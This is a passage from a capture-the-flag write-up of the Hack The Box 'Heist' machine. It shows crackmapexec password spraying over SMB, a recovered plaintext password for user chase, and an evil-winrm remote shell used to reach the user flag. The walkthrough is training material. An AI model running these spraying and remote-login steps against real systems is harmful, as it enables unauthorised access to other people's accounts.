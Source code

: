 We get more users (support, Chase, Jason). Let add them to our users file and use crackmap exec to see if any of our known passwords work with them:

```
$ crackmapexec smb 10.129.96.157 -u chase -p ~/ctf/htb/machines/heist/files/passwords.txt
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

No luck for support or Jason but we get credentials for chase:Q4)sJu\Y8qz*A3?d. Lets try to connect with these new credentials:

```
$ evil-winrm -i 10.129.96.157 -u chase -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

We now have our initial foot hold into the system. Let see if we have a user flag on the desktop.

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        8/20/2022   7:15 AM             34 user.txt
```


There is the user flag!. Let check out the todo.txt document:

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```
